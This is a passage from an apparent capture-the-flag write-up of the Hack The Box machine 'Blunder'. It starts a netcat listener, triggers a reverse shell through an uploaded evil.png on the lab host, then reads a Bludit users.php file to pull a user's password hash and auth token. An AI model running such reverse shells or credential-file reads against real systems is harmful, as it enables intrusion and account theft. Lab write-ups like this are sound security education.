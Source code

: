 At this stage, the malicious content has been uploaded, and we need to start a listener:

~~~
$ rlwrap nc -nlvp 4444
~~~

Now, browsing the following URL will call our reverse shell: http://10.10.10.191/bl-content/tmp/temp/evil.png

## Lateral move

In the reverse shell, I started to browse the file system, and noticed that there are 2 users under the `/home` directory (`hugo` and `shaun`). The `user.txt` flag is in Hugo's home but we can't access it. A lateral move to hugo is obviously required.

~~~
hugo@blunder:~$ ls -la /home/hugo
ls -la /home/hugo
total 80
drwxr-xr-x 16 hugo hugo 4096 Sep  9 12:39 .
drwxr-xr-x  4 root root 4096 Apr 27 14:31 ..
lrwxrwxrwx  1 root root    9 Apr 28 12:13 .bash_history -> /dev/null
-rw-r--r--  1 hugo hugo  220 Nov 28  2019 .bash_logout
-rw-r--r--  1 hugo hugo 3771 Nov 28  2019 .bashrc
drwx------ 13 hugo hugo 4096 Apr 27 14:29 .cache
drwx------ 11 hugo hugo 4096 Nov 28  2019 .config
drwxr-xr-x  2 hugo hugo 4096 Nov 28  2019 Desktop
drwxr-xr-x  2 hugo hugo 4096 Nov 28  2019 Documents
drwxr-xr-x  2 hugo hugo 4096 Nov 28  2019 Downloads
drwx------  3 hugo hugo 4096 Apr 27 14:30 .gnupg
drwxrwxr-x  3 hugo hugo 4096 Nov 28  2019 .local
drwx------  5 hugo hugo 4096 Apr 27 14:29 .mozilla
drwxr-xr-x  2 hugo hugo 4096 Nov 28  2019 Music
drwxr-xr-x  2 hugo hugo 4096 Nov 28  2019 Pictures
-rw-r--r--  1 hugo hugo  807 Nov 28  2019 .profile
drwxr-xr-x  2 hugo hugo 4096 Nov 28  2019 Public
drwx------  2 hugo hugo 4096 Apr 27 14:30 .ssh
drwxr-xr-x  2 hugo hugo 4096 Nov 28  2019 Templates
-r--------  1 hugo hugo   33 Sep  9 09:21 user.txt
drwxr-xr-x  2 hugo hugo 4096 Nov 28  2019 Videos
~~~

Analyzing the `/var/www` directory was interesting because I noticed the presence of 2 instances of the Bludit CMS. Analyzing the configuration files in the most recent version led to disclosing Hugo's password hash:

~~~
$ cat /var/www/bludit-3.10.0a/bl-content/databases/users.php
<?php defined('BLUDIT') or die('Bludit CMS.'); ?>
{
    "admin": {
        "nickname": "Hugo",
        "firstName": "Hugo",
        "lastName": "",
        "role": "User",
        "password": "faca404fd5c0a31cf1897b823c695c85cffeb98d",
        "email": "",
        "registered": "2019-11-27 07:40:55",
        "tokenRemember": "",
        "tokenAuth": "b380cb62057e9da47afce66b4615107d",
        "tokenAuthTTL": "2009-03-15 14:00",
        "twitter": "",
        "facebook": "",
        "instagram": "",
        "codepen": "",
        "linkedin": "",
        "github": "",
~~~